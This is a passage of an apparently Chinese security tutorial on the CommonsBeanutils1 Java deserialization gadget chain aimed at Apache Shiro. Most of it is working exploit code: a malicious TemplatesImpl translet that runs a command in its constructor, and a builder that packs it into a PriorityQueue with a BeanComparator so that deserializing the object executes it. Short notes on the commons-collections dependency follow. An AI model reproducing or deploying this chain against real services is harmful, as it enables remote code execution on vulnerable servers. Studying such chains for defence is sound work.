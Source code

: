 	public class EvilTemplateImpl extends AbstractTranslet {  
	    public void transform(DOM document, SerializationHandler[] handlers)  
	            throws TransletException {}  
	    public void transform(DOM document, DTMAxisIterator iterator,  
	                          SerializationHandler handler) throws TransletException {}  
	    public EvilTemplateImpl() throws IOException {  
	        super();  
	        Process process = Runtime.getRuntime().exec("calc");  
	        System.out.println("Hello TemplatesImpl");  
	    }  
	}
	```
	CB1链实现
	```java
	import java.lang.reflect.Field;  
	import java.util.PriorityQueue;  
	import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
	import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
	import javassist.ClassPool;  
	import javassist.CtClass;  
	import org.apache.commons.beanutils.BeanComparator;  
	 
	public class CB1 {  
		// 通过反射修改属性
	    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {  
	        Field field = obj.getClass().getDeclaredField(fieldName);  
	        field.setAccessible(true);  
	        field.set(obj, value);  
	    }  
		// 获取类的字节码
	    public static byte[] getByteCode(Class<?> clazz) throws Exception{  
	        ClassPool pool = ClassPool.getDefault();  
	        CtClass ctClass = pool.get(clazz.getName());  
	        return ctClass.toBytecode();  
    }  
	
	    public static PriorityQueue<Object> getCB1() throws Exception {  
	        TemplatesImpl obj = new TemplatesImpl();  
	        setFieldValue(obj, "_bytecodes", new byte[][]{getByteCode(EvilTemplateImpl.class)});  
	        setFieldValue(obj, "_name", "EvilTemplateImpl");  
	        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());  
	        // 与通用CB1链不同，这里BeanComparator不为空，因为Shiro默认没有CC支持，具体见下文
	        BeanComparator comparator = new BeanComparator(null, Collections.reverseOrder());
	        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);  
	        queue.add("1");  
	        queue.add("1");  
	        setFieldValue(comparator, "property", "outputProperties");  
	        setFieldValue(queue, "queue", new Object[]{obj, obj});  
	        return queue;  
	    }  
	}
	```
	>虽然在CB1中没有显示使用到commons.collections库，但是在反序列化的时候会调用BeanComparator的这个构造函数。
	>
	>*虽然构造payload的时候调用的是无参构造，但是在后面修改了它的`property`属性，所以在反序列化的时候调用的是下面这个有参构造*
	>
	>```java
	>public BeanComparator(String property) {  
	>    this(property, ComparableComparator.getInstance());  
	>}
	>```
	>
	>而该构造函数就使用到了commons.collections库中的ComparableComparator类
	>